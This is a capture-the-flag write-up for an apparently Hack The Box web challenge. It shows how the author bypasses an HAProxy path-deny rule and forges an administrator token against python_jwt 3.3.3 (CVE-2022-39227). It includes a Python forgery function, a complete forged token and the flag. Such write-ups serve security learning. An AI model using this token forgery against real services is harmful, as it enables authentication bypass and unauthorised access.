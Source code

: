 # Challenge source file
URL: [https://1drv.ms/u/c/4ab09e7ce6bb4141/EdYr-ieqp41DvNLm6nxFQ9QBmHrbVUcS8ikaqq513BCD7g?e=uxOHd4](https://1drv.ms/u/c/4ab09e7ce6bb4141/EdYr-ieqp41DvNLm6nxFQ9QBmHrbVUcS8ikaqq513BCD7g?e=uxOHd4)

# Difficulty
Normal

# Author
Hack The Box team

# Approach
- The site is an API that provide chat service between companies and ransomware groups. It provides 3 endpoints: an endpoint to get chat ticket, an endpoint to read the chat, and one is for the flag:
  ![image](https://github.com/NoSpaceAvailable/HackTheBox-Cyber-Apocalypse-CTF-2024/assets/143888307/4294e8ed-8b6a-48ba-90b0-2220529f2e09)

- The problem is: I can't use any service on it, because it requires a valid JWT token provided by backend, and the endpoint */api/v1/get_ticket* was banned.
- It's time to read the source code:
- *haproxy.cfg* file:
```
global
    daemon
    maxconn 256

defaults
    mode http

    timeout connect 5000ms
    timeout client 50000ms
    timeout server 50000ms

frontend haproxy
    bind 0.0.0.0:1337
    default_backend backend

    http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
    
backend backend
    balance roundrobin
    server s1 0.0.0.0:5000 maxconn 32 check
```

- This is a config file that have the rule to prevent us from accessing */api/v1/get_ticket*. This can be easily bypassed using [CVE-2023-45539](https://www.haproxy.com/blog/december-2023-cve-2023-45539-haproxy-accepts-as-part-of-the-uri-component-fixed), but I used another technique:
  ![image](https://github.com/NoSpaceAvailable/HackTheBox-Cyber-Apocalypse-CTF-2024/assets/143888307/0d01a026-f374-434d-9ea7-5f19827e6f5a)
 
- I have a JWT token now. I put it in an online decoder, and receive this:
  ![image](https://github.com/NoSpaceAvailable/HackTheBox-Cyber-Apocalypse-CTF-2024/assets/143888307/ce289f92-60ee-4d39-b48f-e2cd6e490a02)

- We can see that there is a guest role assigned to this token, so the goal is change it to admin role.
- The backend also use a module called *python-jwt*:
*requirements.txt*:
  ```
  uwsgi
  Flask
  requests
  python_jwt==3.3.3
  ```

- This version has a vulnerability explained in [CVE-2022-39227](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-39227). Luckily, there is an available [POC](https://github.com/user0x1337/CVE-2022-39227) that I can use. Or you can use this script to create a fake JWT:
  ```python
  def exp(token):
    [header, payload, signature] = token.split(".")
    parsed_payload = loads(base64url_decode(payload))
    parsed_payload["role"] = "administrator"
    fake_payload = base64url_encode((dumps(parsed_payload, separators=(',',':'))))

    return '{" ' + header + '.'+ fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'
  ```
  

# Problem-solving
- I created a fake JWT (actually, this is not JWT anymore), then use it to access */api/v1/flag*:
  ```
  {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTE3MDM4ODEsImlhdCI6MTcxMTcwMDI4MSwianRpIjoic0hlMmZyZ2dqTV9rajFDaHo1bGJfdyIsIm5iZiI6MTcxMTcwMDI4MSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiaGVoZSJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTE3MDM4ODEsImlhdCI6MTcxMTcwMDI4MSwianRpIjoic0hlMmZyZ2dqTV9rajFDaHo1bGJfdyIsIm5iZiI6MTcxMTcwMDI4MSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"i0y3hv69ciWMFSFLrxS7qL53jqdaW0-xNkezPO-gBlZlfEZ7EKp6vAYwMmb2NDqadA8uqBepYgQ7dDK_5vqLh06Xr1IvVFqdCmmu62wKsvGJg1spsIRMIq-9f4fR_I0lENSeqVnPAbEuLCVf2wU-b9Kji6V3APCRNWkMJ_r9sJi9cnz4_NNtX_NoOMd2UJCp_JSRMXPh31YXUswmKdJl1lxpbUQvk7ya000yLMQG6CzzdTFK45mwV-4OL6-yYA8a8kj3wnwAMiUL0YLG3zhShm3wBjuULwThcsymwCjY_6eTbi7d4yMQcO8Y1i5N1l91n366Sa0C0_V5OY8IsRE3Ag"}
  ```
  ![image](https://github.com/NoSpaceAvailable/HackTheBox-Cyber-Apocalypse-CTF-2024/assets/143888307/49f9c7f6-6489-4a3c-9739-176319dcd235)

- Flag: HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}
